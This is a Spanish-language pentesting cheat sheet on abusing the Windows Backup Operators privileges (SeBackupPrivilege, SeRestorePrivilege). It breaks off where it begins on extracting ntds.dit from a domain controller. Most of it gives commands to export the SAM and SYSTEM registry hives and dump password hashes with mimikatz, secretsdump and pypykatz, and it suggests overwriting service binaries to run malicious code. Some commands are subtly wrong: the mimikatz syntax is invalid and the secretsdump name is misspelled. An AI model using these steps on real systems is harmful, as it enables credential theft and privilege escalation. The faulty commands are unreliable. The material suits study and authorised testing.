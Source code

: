 ###### Privilegios Clave del grupo Backup Operators

Los miembros del grupo **Backup Operators** tienen dos privilegios principales:

1. **SeBackupPrivilege**:
    - Permite a los usuarios **omitir los permisos del sistema de archivos** para realizar copias de seguridad. Esto significa que un miembro de este grupo puede leer archivos a los que normalmente no tendría acceso.
    - **Ejemplo de uso**: Acceder a archivos protegidos como el archivo **SAM**, que almacena los hashes de las contraseñas de los usuarios locales.

2. **SeRestorePrivilege**:
    - Permite a los usuarios **restaurar archivos en cualquier ubicación** del sistema de archivos, incluyendo ubicaciones protegidas o sensibles. Esto también les permite modificar archivos que normalmente estarían restringidos.
    - **Ejemplo de uso**: Sobrescribir archivos del sistema, como binarios de servicios, para ejecutar código malicioso con privilegios elevados.

###### Explotación

Extraer el archivo **SAM**:

Usar herramientas como `reg.exe` para exportar el archivo SAM y SYSTEM:

```powershell
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
```

Extraer los hashes de contraseñas.

###### mimikatz

Desde Windows podemos usar mimikatz

```powershell
sekurlsa::samdump::local c:\temp\sam c:\temp\system
```

También podemos transferir los archivos a nuestra máquina atacante y usar `secretsdump.py` o `pypykatz`.

###### secretsdump.py

```bash
impacket-secrestsdump -sam sam -system system local
```

###### pypykatz

```bash
pypykatz registry --sam sam system
```

##### Extracción del archivo ntds.dit en un Controlador de Dominio

A diferencia de la explotación en sistemas independientes, en un Controlador de Dominio (DC), necesitamos acceder al archivo **ntds.dit** para extraer los hashes de contraseñas, junto con el archivo SYSTEM. Sin embargo, el archivo **ntds.dit** presenta un desafío importante: mientras el Controlador de Dominio está en funcionamiento, este archivo está siempre en uso, lo que impide su copia directa mediante métodos convencionales.
